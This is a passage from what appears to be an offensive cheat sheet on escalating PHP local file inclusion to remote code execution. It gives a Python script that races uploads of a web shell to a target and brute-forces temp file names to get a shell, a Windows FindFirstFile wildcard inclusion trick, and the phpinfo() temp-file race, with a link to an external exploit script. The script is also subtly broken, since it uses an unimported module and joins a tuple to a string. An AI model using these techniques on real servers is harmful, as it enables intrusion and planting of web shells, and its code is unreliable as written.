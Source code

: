 ```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


## LFI to RCE via upload (FindFirstFile)

:warning: Only works on Windows

`FindFirstFile` allows using masks (`<<` as `*` and `>` as `?`) in LFI paths on Windows. A mask is essentially a search pattern that can include wildcard characters, allowing users or developers to search for files or directories based on partial names or types. In the context of FindFirstFile, masks are used to filter and match the names of files or directories.

* `*`/`<<` : Represents any sequence of characters.
* `?`/`>` : Represents any single character.

Upload a file, it should be stored in the temp folder `C:\Windows\Temp\` with a generated name like `php[A-F0-9]{4}.tmp`.
Then either bruteforce the 65536 filenames or use a wildcard character like: `http://site/vuln.php?inc=c:\windows\temp\php<<`


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script [phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf


## LFI to RCE via controlled log file
